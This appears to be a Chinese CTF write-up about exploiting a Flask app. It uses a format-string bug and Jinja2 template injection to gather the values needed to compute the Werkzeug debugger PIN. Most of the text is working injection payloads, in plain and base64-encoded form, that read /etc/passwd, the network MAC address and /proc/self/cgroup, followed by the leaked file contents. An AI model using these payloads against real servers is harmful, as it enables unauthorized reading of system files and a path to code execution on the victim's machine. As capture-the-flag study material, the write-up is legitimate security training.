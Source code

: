 在decode亚目输入123发现debug页面,分析页面,得出页面路径

[![mark](https://blogjpg.yanmy.top/blog/20200224/rf8WEDdNCYa4.png?imageslim)](https://blogjpg.yanmy.top/blog/20200224/rf8WEDdNCYa4.png?imageslim)

得出formate格式化字符串漏洞,配合发现jinja2模板注入

尝试去获取6个变量值

```
username # 用户名
modname # flask.app
getattr(app, '__name__', getattr(app.__class__, '__name__')) # Flask
getattr(mod, '__file__', None) # flask目录下的一个app.py的绝对路径
uuid.getnode() # mac地址十进制
get_machine_id() # /etc/machine-id
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].open('/etc/passwd', 'r').read() }}{% endif %}{% endfor %}  
eyUgZm9yIGMgaW4gW10uX19jbGFzc19fLl9fYmFzZV9fLl9fc3ViY2xhc3Nlc19fKCkgJX17JSBpZiBjLl9fbmFtZV9fPT0nY2F0Y2hfd2FybmluZ3MnICV9e3sgYy5fX2luaXRfXy5fX2dsb2JhbHNfX1snX19idWlsdGluc19fJ10ub3BlbignL2V0Yy9wYXNzd2QnLCAncicpLnJlYWQoKSB9fXslIGVuZGlmICV9eyUgZW5kZm9yICV9


结果 ： root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/bin/false
flaskweb:x:1000:1000::/home/flaskweb:
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].open('/sys/class/net/eth0/address', 'r').read() }}{% endif %}{% endfor %}
eyUgZm9yIGMgaW4gW10uX19jbGFzc19fLl9fYmFzZV9fLl9fc3ViY2xhc3Nlc19fKCkgJX17JSBpZiBjLl9fbmFtZV9fPT0nY2F0Y2hfd2FybmluZ3MnICV9e3sgYy5fX2luaXRfXy5fX2dsb2JhbHNfX1snX19idWlsdGluc19fJ10ub3BlbignL3N5cy9jbGFzcy9uZXQvZXRoMC9hZGRyZXNzJywgJ3InKS5yZWFkKCkgfX17JSBlbmRpZiAlfXslIGVuZGZvciAlfSAg
MAC地址:02:42:ac:12:00:0a
MAC地址十进制:2485377957898
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{c.__init__.__globals__['__builtins__'].open('/proc/self/cgroup', 'r').read() }}{% endif %}{% endfor %}

eyUgZm9yIGMgaW4gW10uX19jbGFzc19fLl9fYmFzZV9fLl9fc3ViY2xhc3Nlc19fKCkgJX17JSBpZiBjLl9fbmFtZV9fPT0nY2F0Y2hfd2FybmluZ3MnICV9e3sgYy5fX2luaXRfXy5fX2dsb2JhbHNfX1snX19idWlsdGluc19fJ10ub3BlbignL3Byb2Mvc2VsZi9jZ3JvdXAnLCAncicpLnJlYWQoKSB9fXslIGVuZGlmICV9eyUgZW5kZm9yICV9

```